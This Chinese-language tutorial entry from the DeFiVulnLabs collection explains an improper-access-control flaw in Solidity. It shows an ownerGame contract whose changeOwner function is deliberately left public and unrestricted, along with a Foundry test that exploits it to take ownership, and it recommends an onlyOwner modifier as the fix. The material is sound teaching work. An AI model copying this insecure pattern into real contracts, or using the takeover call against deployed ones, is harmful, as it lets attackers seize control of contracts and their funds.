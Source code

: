 # 可见性  
[Visibility.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Visibility.sol)  
**名称：** 不当的访问控制漏洞  
**描述：**  
函数的默认可见性为“公共”。  
如果存在不安全的可见性设置，攻击者可以直接调用智能合约中的敏感函数。  
ownerGame合约具有一个changeOwner函数，旨在更改合约的所有者。  
但是，由于访问控制不当，此函数可公开访问，并且可以由任何外部帐户或合约调用。因此，攻击者可以调用此函数来更改合约的所有权并取得控制权。  
**影响：** 任何人都可以更改合同的所有者。  

**缓解意见：**
使用访问控制修饰器：Solidity提供了修饰器，例如onlyOwner，
可用于限制函数的访问  

**OwnerGame合约：** 
```
contract ownerGame {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // changeOwner 的可见性是错的，应该加上onlyOwner修饰器
    function changeOwner(address _new) public {
        owner = _new;
    }
}
```

**如何测试：**  
forge test --contracts src/test/Visibility.sol-vvvv  
```
// 此函数测试函数在ownerGameContract合约中的可见性
function testVisibility() public {
    // 创建ownerGameContract合约的新实例
    ownerGameContract = new ownerGame();

    // 记录ownerGameContract合约的当前所有者。
    console.log("Before exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 调用ownerGameContract的changeOwner函数，将所有者更改为msg.sender
    ownerGameContract.changeOwner(msg.sender);

    // 记录ownerGameContract合约的新所有者，现在应该是此函数的发送者。
    console.log("After exploiting, owner of ownerGame:", ownerGameContract.owner());

    // 将记录一条表明漏洞攻击已完成的消息。
    console.log("Exploit completed");
}
``` 
**红框：** 所有者被更改  
![Alt text](image-14.png)